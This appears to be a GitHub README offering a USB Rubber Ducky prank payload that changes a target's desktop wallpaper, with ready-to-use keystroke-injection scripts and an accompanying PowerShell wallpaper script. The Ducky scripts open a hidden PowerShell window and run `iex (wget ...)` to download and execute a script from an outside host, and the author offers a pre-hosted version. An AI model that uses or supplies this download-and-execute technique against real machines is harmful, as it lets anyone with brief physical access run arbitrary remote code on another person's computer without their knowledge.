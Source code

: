 Pre-written and execution-ready code:

If you do not have access to a web server and want to get this running, here is pre-uploaded code. Code is at [this gist](https://gist.github.com/judge2020/034d6201d6b24f079e0d692bea3e92b0) containing the PS code, and the image is hosted on GitHub directly.

By default, it goes to an My Little Pony image, however you can set the 'image' GET parameter to change it at will. Eg change `https://judge.sh/wallpaper.php` to `https://judge.sh/wallpaper.php?image=https://imgur.com/test.png`.
```
SLEEP 1000
GUI r
DELAY 250
STRING powershell -windowstyle hidden iex (wget https://judge.sh/wallpaper.php)
ENTER
```


Below is original text
---


GET THE CODE SNIPS HERE:

http://lostserver.com/static/rubberduckcode.txt

It will set the background image on a targets pc to whatever jpg you want - i recommend mylittleponys :) 

Regards Keld Norman@DK

Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://your-website.com/powershellscript.ps)
ENTER
```
The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
```
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )
```
